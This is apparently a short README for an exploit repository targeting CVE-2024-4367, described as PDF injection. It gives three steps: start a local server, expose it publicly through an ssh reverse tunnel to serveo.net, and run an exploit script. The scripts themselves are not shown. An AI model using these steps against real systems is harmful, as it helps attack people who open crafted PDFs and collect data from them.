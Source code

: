 ### Information

- CVE-2024-4367
- PDF Injection

### Exploit

- Run code server

```python
    python3 server.py
```

- Run serveo

```bash
    ssh -R 80:localhost:5003 serveo.net
```

- Run code exploit

```python
    python3 exp.py
```